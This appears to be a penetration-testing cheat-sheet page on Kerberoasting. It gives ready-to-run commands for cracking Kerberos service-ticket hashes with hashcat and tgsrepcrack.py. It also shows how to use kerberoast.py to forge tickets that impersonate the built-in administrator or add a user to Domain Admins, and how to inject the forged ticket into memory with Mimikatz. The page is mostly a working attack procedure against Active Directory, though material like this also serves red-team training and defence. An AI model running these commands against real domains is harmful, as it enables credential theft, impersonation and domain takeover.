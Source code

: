 ## Cracking The Hash

### Hashcat

The service account hashes will also retrieved in John the Ripper format or this hashcat command:

```
hashcat -a 0 -m 13100  hash.txt tools/wordlist/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt  --status
```

### [tgsrepcrack.py](https://github.com/leechristensen/tgscrack)

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

### Rewrite

Make user appear to be a different user

```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  
```

Add user to another group (in this case Domain Admin)

```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512 
```

## Rewrite Service Tickets & RAM Injection

Kerberos tickets are signed with the NTLM hash of the password. If the ticket hash has been cracked then it is possible to rewrite the ticket with [Kerberoast](https://github.com/nidem/kerberoast) python script. This tactic will allow to impersonate any domain user or a fake account when the service is going to be accessed. Additionally privilege escalation is also possible as the user can be added into an elevated group such as Domain Admins.

```
python kerberoast.py -p Password123 -r megabank_001.kirbi -w megabank.kirbi -u 500
python kerberoast.py -p Password123 -r megabank_001.kirbi -w megabank.kirbi -g 512
```

The new ticket can be injected back into the memory with the following Mimikatz command in order to perform authentication with the targeted service via Kerberos protocol.

```
kerberos::ptt PENTESTLAB.kirbi
```

## Other Tools

{% embed url="https://github.com/cyberark/RiskySPN" %}

{% embed url="https://github.com/xan7r/kerberoast" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}
